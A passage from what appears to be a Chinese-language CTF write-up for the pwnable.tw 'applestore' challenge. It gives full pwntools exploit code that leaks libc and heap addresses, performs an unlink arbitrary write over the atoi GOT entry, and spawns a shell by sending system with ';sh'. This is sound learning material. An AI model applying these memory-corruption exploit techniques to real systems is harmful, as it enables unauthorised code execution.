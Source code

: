 ```py
for i in range(26):
	temp_addr = leakAddr(p32(temp_addr + 8) + p32(0)*3)
delet_ebp = temp_addr + 0x20

```
  delete函数中同样能修改栈上节点的内容，通过delete函数完成unlink实现任意地址写:
```py
payload1 = b'27'
payload1 += p32(0)*2 + p32(delet_ebp - 0x0c) + p32(e.got['atoi'] + 0x22)
delete(payload1)
```
  接下来handler函数会调用myread读入nptr，只需传入system及其参数就可以完成getshell了:
```py
p.recvuntil(b'>')
payload2 = p32(libc_base + l.symbols['system']) + b";sh\x00"
p.sendline(payload2)
```

## exploit
  完整代码:
```py
from pwn import *

p = remote("chall.pwnable.tw", 10104)
e = ELF("./applestore")
l = ELF("./libc_32.so.6")
context.log_level = 'debug'

def add(data):
	p.recvuntil(b'>')
	p.sendline(b'2')
	p.recvuntil(b'Device Number>')
	p.sendline(data)
def checkout():
	p.recvuntil(b'>')
	p.sendline(b'5')
	p.recvuntil(b'Let me check your cart. ok? (y/n) >')
	p.sendline(b'y\x00')
def cart(data):
	p.recvuntil(b'>')
	p.sendline(b'4')
	p.recvuntil(b'Let me check your cart. ok? (y/n) >')
	p.sendline(b'y\x00' + data)
def delete(data):
	p.recvuntil(b'>')
	p.sendline(b'3')
	p.recvuntil(b'Item Number>')
	p.sendline(data)
def leakAddr(data):
	cart(data)
	p.recvuntil(b'27: ')
	return u32(p.recv(4))
items_start_at = 0x804B070

for i in range(16):
	add(b'1')
for i in range(10):
	add(b'4')
checkout()

libc_base = leakAddr(p32(e.got['puts']) + p32(0)*3) - l.symbols['puts']
heap_base = leakAddr(p32(items_start_at) + p32(0)*3)
temp_addr = heap_base
```